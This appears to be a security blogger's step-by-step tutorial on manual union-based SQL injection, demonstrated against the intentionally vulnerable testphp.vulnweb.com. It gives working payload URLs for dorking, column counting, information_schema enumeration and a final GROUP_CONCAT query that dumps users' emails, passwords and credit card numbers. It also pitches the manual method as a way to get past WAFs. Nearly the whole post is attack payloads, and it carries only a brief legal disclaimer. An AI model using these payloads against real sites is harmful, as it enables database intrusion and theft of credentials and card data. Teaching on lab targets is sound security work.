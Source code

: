 <h2>EXPLOITING UNION BASED SQL INJECTION MANUALLY</h2>

Hey Guys,

It's [0xvenus](https://twitter.com/0x_venus) again

HERE I SHOWCASE HOW TO PERFORM A BASIC UNION BASED SQL INJECTION (MANUALLY)

KINDLY CHECK NEXT POST FOR ADVANCED UNION BASED SQLI WHERE I SHOWED HOW TO BYPASS SOME WAFS AND FILTERS

``Performing a Union-Based SQL Injection attack manually involves injecting a crafted payload into an input field or parameter to manipulate a SQL query and retrieve unauthorized data from the database. Please note that attempting SQL injection on systems you don't own or have explicit permission to test is illegal and unethical. Only perform these actions in a controlled, legal environment with proper authorization.``

Target: https://testphp.vulnweb.com/ (intentionally vulnerable site created for testing purpose)

**STEP 1:**

``Finding the injection point: we can simply find the injection point of a site by dorking for parameters with value``

dork example: ``site:testphp.vulnweb.com inurl:php?``. There are many dorks online you can search for more.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/71e2cbe6-2ad8-4704-b9f3-58d3157b6528)

clicking on any of those pages in the result should reveal the directory with parameter.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/58b964c7-9ede-40cd-8e2a-d4d19d435995)

As you can see we have a parameter and a value which we can then confirm the vulnerabilty

**STEP 2**

``Confirming the vulnerability: we can easily confirm the vulnerability by throwing a single quote or double quotes at the end of the parameter``
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1c2ec9d8-c6ee-4f2f-b026-fbcf65108af6)
As you can see it throws an SQL error which confirms the vulnnerability

**STEP 3**

``Adding a URL balancer(comment) to fix the error: well actually it only depends on the environment and reaction of application when we try some commenting operators. If you see php is used then usually "--" will surely work other wise you can check "--+" or "# (url encoded)", else the best option is to try with different types of comments and analyse the input. So what we will do to check is try to close our input with all possibilities like single quote double quote or brackets etc, and comment rest query and if it works then we can be sure that this comment is working.``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3541e6aa-8396-4dd6-aa65-7e5c2ad6f094)

No error after addiing the balancer. We can now proceed to the next step

**STEP 4**

``Finding the total number of columns present in the database``

we can easily use the ``order by`` or ``group by`` statement


![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7f4aa84f-1f38-4a27-93d0-bab8aa9edb5f)

``order by 1`` didn't give error so we will keep increasing the number till we get error

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/29c929b1-85e3-4ca2-a288-994ec005e33f)

``order by 1000`` showed errors which means we dont have up to 1000 columns in the database

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/450dfa62-b496-41ca-826f-16caef47db97)

increasing the number i got error at ``order by 4`` which shows we have 3 columns present in the database


**STEP 5**

``Finding the vulnerable column: we will be injecting our SQL payloads in the vulnerable column``
 
 we can get the vulnerable column by adding a dot or a slash before the parametre value combined with the ``union select statement``
 
 ```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3```

***Note the - after the = sign***

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/25527c10-1785-4f3b-b1d6-814f4f97dd47)
Those numbers showing on the screen are the vulnerable columns so, you can choose the one you prefer for the injection

i will be choosing column 2 here.

**STEP 6**

``getting the database name and version: you can get the database version by inputing the @@version or version() and for db name database() in the vulnerable column``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e600515b-3169-4dcc-9ee9-aafc8d6b7fe5)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/949e1917-e5e6-4667-aa93-d6b6ae8d4525)

```http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,version(),3```


**STEP 7**


``getting table names``

we can get the table names one by one by using the query  ``table_name``  in the vulnerable column and then adding ``from information_schema.tables where table_schema=database() limit 0,1`` at the end of the query


```First row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1```

```Second row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1```

```Third row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1```

```Forth row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 3,1```

and so on.



Stressful right? lol i've gat your back mate


we can easily dump the table names once using the ``concat`` statement


```(SELECT+GROUP_CONCAT(table_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA=DATABASE())```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3d3ba4ed-842f-4f99-8668-f5dd9180e4bc)

cool we have the table names in a single shot

**STEP 8**

``getting the column names: we can get the columns in a table we want``

```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,column_name,3 from information_schema.columns where table_schema=database() and table_name='users' limit 0,1```

Here i tried getting the columns in the *users* table 

NB: remember to keep increasing the number of limit after the query

so to get the columns in a shot we can use

```(SELECT+GROUP_CONCAT(column_name+SEPARATOR+'::')+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE())```

NB: set the value of the TABLE_NAME= to the table you are trying to get its columns

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c70af46f-e483-4d4e-a33a-88a78bd5524e)

As you can see we have the columns in the users table which are emails,creditcards,address,password e.t.c

```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(column_name+SEPARATOR+%27::%27)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE()),3```

let's proceed to the next step

**STEP 9** 

``dumping the juicy contents of the database like here we have columns; passwords,emails,creditcards e.t.c in the users table``


```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(email,'::',%20pass,'::',%20name,'::',%20cc,'::',uname,'::',%20phone%20+SEPARATOR+'::')+FROM+users%20),3```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4c5bc588-ce79-42e1-88a0-0d81313663af)

NB: i added the column names in a table to be able to dump it contents

so, note down the columns a table name then replace them in the payload.


`Ps: union based SQLi is helpful because sqlmap cant bypass all Wafs and filters but you can, the success rate in dumping the database is high by doing it manually`


Thanks 

reach out to me on [Twitter](https://twitter.com/0x_venus) for any question

see you in the next post.























